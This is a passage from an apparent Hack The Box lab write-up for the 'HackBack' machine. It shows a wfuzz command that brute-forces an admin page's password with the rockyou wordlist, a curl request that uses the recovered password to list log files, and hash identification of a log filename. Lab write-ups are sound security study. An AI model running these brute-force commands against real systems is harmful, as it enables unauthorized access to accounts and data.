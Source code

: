 ```bash
➜  HACKBACK wfuzz -w /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-10.txt "http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=FUZZ"

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=FUZZ
Total requests: 92

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                     
===================================================================

000000008:   302        6 L      12 W     117 Ch      "12345678" 
```

The password is `12345678`. When I ran `curl` against the endpoint using that password, I got an interesting response.

```bash
➜  HACKBACK curl -X GET 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=list&site=hackthebox&password=12345678'
Array
(
    [0] => .
    [1] => ..
    [2] => e691d0d9c19785cf4c5ab50375c10d83130f175f7f89ebd1899eee6a7aab0dd7.log
)
```
There appeared to be a `.log` file with a hashed name. I used `hash-identifier` to determine what type of hash it was.

```bash
➜  HACKBACK hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: e691d0d9c19785cf4c5ab50375c10d83130f175f7f89ebd1899eee6a7aab0dd7

Possible Hashs:
[+] SHA-256
```
SHA-256 was apparently the most likely. I struggled quite a bit to determine what could be going on at this point... After a few pointers from some teammates, I discovered that attempting to login to `www.hackthebox.htb`, the URL from the `HackTheBox` email template, generates a second `.log` file with a SHA-256 hash of my IP address as its name.
